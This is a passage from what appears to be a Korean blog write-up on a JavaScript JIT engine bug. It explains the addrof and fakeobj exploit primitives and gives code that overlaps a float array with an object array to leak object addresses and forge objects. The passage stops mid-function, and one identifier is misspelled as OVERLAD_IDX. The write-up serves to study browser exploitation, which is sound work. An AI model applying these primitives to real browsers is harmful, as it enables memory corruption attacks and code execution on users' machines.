 
## Addrof/Fakeobj

이 단계에서, 두 개의 low-level exploit primitives인 addrof와 fakeobj를 구성할 수 있습니다.

- addrof(obj): JS 객체의 메모리 주소를 **부동소수점** 형태로 반환하는 primitive.
```js
// addrof(obj)
let obj = {a: 42};
let addr = addrof(obj);
```
```shell
2.211548541e-314 (0x000000010acdc250 as 64bit integer)
```

메모리의 주소가 64비트로 변환되어 출력됩니다.

- fakeobj(addr): 주어진 메모리 주소를 JSValue로 변환하여 JS 객체로 변환하는 primitive.
```js
let obj2 = fakeobj(addr);
obj2 === obj;
```
```shell
true
```

위의 객체를 통해 메모리 주소를기반으로 실제 JS 객체를 조작할 수 있게 됩니다.

위의 primitive들은 두 가지의 중요한 역할을 수행합니다.
1. 제어 가능한 데이터를 예측 가능한 주소에 배치를 통해 힙 ASLR 우회
2. 임의의 메모리 주소를 포함한 JS 객체를 생성하여 가짜 객체 생성 및 엔진 내 삽입

이 primitive들은 서로 다른 스토리지 타입을 가진 두 개의 JSArray를 겹쳐서 생성할 수도 있습니다.
- 첫 번째 JSArray -> 부동소수점 값을 저장
- 두 번째 JSArray -> JSValues 저장

이 겹치는 배열 구조를 이용하면, JS 객체의 메모리 주소를 직접 읽거나, **조작된 메모리 주소로 객체를 생성**하는 것이 가능해집니다.

![배열 사진](https://raw.githubusercontent.com/Pdas0/Pdas0.github.io/refs/heads/main/_posts/JIT_BUG/1.png)

위의 과정을 실행하는 코드는 다음과 같습니다.
```js
let noCoW = 13.37;
let target = [noCoW, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6];
let float_arr = [noCoW, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6];
let obj_arr = [{}, {}, {}, {}, {}, {}, {}];

hax(target, n);

assert(float_arr.length == 0x1337);

const OVERLAP_IDX = 8;

function addrof(obj) {
    obj_arr[0] = obj;
    return float_arr[OVERLAP_IDX];
}

function fakeobj(addr) {
    float_arr[OVERLAD_IDX] = addr;
    return obj_arr[0];
```